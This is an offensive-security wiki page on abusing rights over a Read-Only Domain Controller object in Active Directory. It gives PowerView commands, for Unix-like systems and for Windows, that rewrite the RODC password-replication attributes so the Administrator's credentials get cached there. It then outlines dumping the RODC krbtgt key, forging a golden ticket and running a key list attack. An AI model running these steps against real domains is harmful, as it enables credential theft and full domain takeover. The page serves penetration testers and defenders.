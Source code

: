 # Rights on RODC object

With administrative control over the [RODC](../domain-settings/rodc.md) computer object in the Active Directory, there is a path to fully compromise the domain. It is possible to modify the RODC’s `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` attributes to allow a Domain Admin to authenticate and dump his credentials via administrative access over the RODC host.

{% hint style="info" %}
For more granularity, one of these ACEs against the RODC object is initially sufficient, since they will implicitly allow `WriteProperty` against the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes:

* `GenericWrite`
* `GenericAll` / `FullControl`
* `WriteDacl` (the attacker can modify the DACL and obtain arbitrary permissions)
* `Owns` (c.f. `WriteDacl`)
* `WriteOwner` (i.e. the attacker can obtain `Owns` -> `WriteDacl` -> other permissions)
* `WriteProperty` against the `msDS-RevealOnDemandGroup`attribute in conjunction with another primitive to gain privileged access to the host. `WriteProperty` against the `msDS-NeverRevealGroup` attribute may be required if it includes the target account.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this [PowerView python package](https://github.com/aniqfakhrul/powerview.py) (Python) can be used to modify the LDAP attribute.

<pre class="language-bash"><code class="lang-bash"><strong>powerview "$DOMAIN"/"$USER":"$PASSWORD"@"RODC_FQDN"
</strong>
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
#Then, append the Allowed RODC Password Replication Group group
<strong>PV > Set-DomainObject -Identity RODC-server$ -Set msDS-RevealOnDemandGroup='CN=Administrator,CN=Users,DC=domain,DC=local'
</strong><strong>PV > Set-DomainObject -Identity RODC-server$ -Append msDS-RevealOnDemandGroup='CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local'
</strong>
#If needed, remove the admin from the msDS-NeverRevealGroup attribute
<strong>PV > Set-DomainObject -Identity RODC-server$ -Clear msDS-NeverRevealGroup
</strong></code></pre>

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) (PowerShell) can be used for this purpose.

```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.
{% endtab %}
{% endtabs %}

## References

{% embed url="https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06" %}
